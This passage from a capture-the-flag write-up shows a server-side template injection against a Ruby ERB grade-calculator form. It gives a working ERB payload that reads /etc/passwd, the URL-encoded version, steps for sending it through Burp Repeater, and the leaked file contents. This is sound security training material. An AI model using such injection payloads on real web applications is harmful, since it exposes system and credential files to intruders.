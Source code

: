 Doing that with this form, we see that it's taking our input, doing some sort of server calculation, then returning some value onto the page in HTML. This is a good sign that a template engine is being used and that we might be able to exploit it.

## Exploitation

We can fire up `Burp` and intercept the request to see what's going on and try some payloads from [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby).

The way the form works is you only need to enter a single name, grade and weight in one row. The rest of the numeric fields can be 0 and the string fields can be anything. <u>The form will only calculate the first row of data</u>. The ERB payload we land on is:

```erb
<%= File.open('/etc/passwd').read %>
```

We need to URL encode it, and we get something along the lines of:

```txt
%0a%3c%25%3d%20%46%69%6c%65%2e%6f%70%65%6e%28%27%2f%65%74%63%2f%70%61%73%73%77%6
4%27%29%2e%72%65%61%64%20%25%3e
```

With all of that said and done, we can intercept the request with `Burp` then send it to Repeater with <kbd>Ctrl + R</kbd>. We can paste our payload in the `category1` parameter and send the request.

![SSTI Results](/images/perfection-80-ssti.png)

The contents of `/etc/passwd`

```txt
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System
(admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network
Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time
Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
```